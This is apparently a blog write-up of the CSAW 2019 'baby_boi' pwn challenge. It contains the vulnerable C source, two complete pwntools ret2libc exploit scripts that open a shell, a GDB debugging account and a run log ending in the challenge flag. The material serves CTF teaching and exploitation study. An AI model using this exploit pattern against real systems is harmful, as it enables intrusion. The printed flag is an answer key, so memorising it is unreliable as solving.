 ```yaml
---
layout: post
title:  "CSAW Qualifiers 2019: baby_boi"
date:   2019-09-16 04:00:00 +0800
categories: pwn
tags: CSAW-Qualifiers-2019
---
```


This binary had a very simple stack buffer overflow with NX enabled. It required a ret2libc attack, however calling `system` once didn't work because of the condition the stack was in, so I had to add more input into the payload to create a valid stack frame. More information in the writeup.

### Challenge

* **Category:** pwn
* **Points:** 50
* **Solves:** ~300

>Welcome to pwn.
>
>nc pwn.chal.csaw.io 1005

### Solution

We are given the following source code for the binary:
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv[]) {
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  char buf[32];
  printf("Hello!\n");
  printf("Here I am: %p\n", printf);
  gets(buf);
}
```

If you are unfamiliar with how a ret2libc exploit works, I suggest reading up my writeup of [Storytime from HSCTF-6](/pwn/2019/06/23/hsctf-binary-exploitation-challenges.html#storytime).

For this challenge specifically, when running the program, we get given `printf`'s libc address which we can easily use to calculate the address of `system` and the string `/bin/sh` in libc. The following exploit is what I used initially:
```python
#!/usr/bin/env python2

from pwn import *

BINARY = './baby_boi'
HOST, PORT = 'pwn.chal.csaw.io', 1005
context.terminal = ['tmux', 'new-window']

elf = ELF(BINARY)
libc = ELF('./libc-2.27.so')

def start():
    if not args.REMOTE:
        return process(BINARY)
    else:
        return remote(HOST, PORT)

def debug(bps):
    gdbscript = ''

    for bp in bps:
        gdbscript += 'b *0x{:x}'.format(bp)

    gdb.attach(p, gdbscript=gdbscript)

p = start()
if not args.REMOTE and args.GDB:
    debug([0x40072e]) # ret in main

p.recvuntil(': ')

printf_leak = int(p.recvuntil('\n')[:-1], 16)

log.info('printf at: ' + hex(printf_leak))

libc.address = printf_leak - libc.symbols['printf']

log.info('libc base: ' + hex(libc.address))

system = libc.symbols['system']
bin_sh = next(libc.search('/bin/sh'))
pop_rdi = libc.address + 0x2155f

log.info('system: ' + hex(system))
log.info('/bin/sh: ' + hex(bin_sh))
log.info('pop rdi: ' + hex(pop_rdi))

payload = 'A'*40
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)

p.sendline(payload)

p.interactive()
```

It simply runs the program, takes the address of `printf` given to it, calculates offsets to `system` and `/bin/sh`, then calls `system('/bin/sh')`. The `pop rdi` gadget address was found by running `ROPgadget --binary ./libc-2.27.so | grep "pop rdi"`.

However, initially running this exploit resulted in a segfault. I couldn't figure out why, so I spun up my Ubuntu Bionic VM to replicate the conditions of the remote binary (I knew to use Bionic because the libc version given to us was 2.27, which comes pre-installed with Bionic). Running the exploit locally then also resulted in a segfault.

I ran the binary with `tmux` and `./exploit.py GDB` to step through it with GDB. I set a breakpoint on the `ret` instruction from main (refer to my script for further details), and I realized that it was seg faulting in the call to `system`. GDB specifically said that the seg fault happened in `do_system+679`, which has the instruction `mov rcx, [rsp+0x178]`, so I restarted the exploit, and after hitting the breakpoint at the end of main, I did a `b *do_system+679` to set a breakpoint on that instruction.

Continuing on from there, the breakpoint at `do_system+679` was hit, and I inspected the stack at `rsp+0x178` by doing `x/gx $rsp+0x178` and found that the stack value was an invalid address. That's why it was segfaulting. `[rsp+0x178]` will dereference that invalid address resulting in a segfault.

The way I solved the challenge then was to append some valid addresses to my payload. Remember that the payload is put on the stack, so chances are if we keep adding valid addresses to the payload, one of those addresses will overwrite this address on the stack and prevent the segfault. I just ended up calling `system('/bin/sh')` twice, as seen in my final payload below. Appending any valid address to the stack would have been fine though.
```python
#!/usr/bin/env python2

from pwn import *

BINARY = './baby_boi'
HOST, PORT = 'pwn.chal.csaw.io', 1005
context.terminal = ['tmux', 'new-window']

elf = ELF(BINARY)
libc = ELF('./libc-2.27.so')

def start():
    if not args.REMOTE:
        return process(BINARY)
    else:
        return remote(HOST, PORT)

def debug(bps):
    gdbscript = ''

    for bp in bps:
        gdbscript += 'b *0x{:x}'.format(bp)

    gdb.attach(p, gdbscript=gdbscript)

p = start()
if not args.REMOTE and args.GDB:
    debug([0x40072e]) # ret in main

p.recvuntil(': ')

printf_leak = int(p.recvuntil('\n')[:-1], 16)

log.info('printf at: ' + hex(printf_leak))

libc.address = printf_leak - libc.symbols['printf']

log.info('libc base: ' + hex(libc.address))

system = libc.symbols['system']
bin_sh = next(libc.search('/bin/sh'))
pop_rdi = libc.address + 0x2155f

log.info('system: ' + hex(system))
log.info('/bin/sh: ' + hex(bin_sh))
log.info('pop rdi: ' + hex(pop_rdi))

payload = 'A'*40
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)

p.sendline(payload)

p.interactive()
```

```sh
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/csaw-2019-quals/pwn/baby_boi$ ./exploit.py REMOTE
[*] '/ctf/pwn-and-rev/csaw-2019-quals/pwn/baby_boi/baby_boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/ctf/pwn-and-rev/csaw-2019-quals/pwn/baby_boi/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.chal.csaw.io on port 1005: Done
[*] printf at: 0x7f10fe591e80
[*] libc base: 0x7f10fe52d000
[*] system: 0x7f10fe57c440
[*] /bin/sh: 0x7f10fe6e0e9a
[*] pop rdi: 0x7f10fe54e55f
[*] Switching to interactive mode
$ ls
baby_boi
flag.txt
$ cat flag.txt
flag{baby_boi_dodooo_doo_doo_dooo}
$  
```

Flag: `flag{baby_boi_dodooo_doo_doo_dooo}`
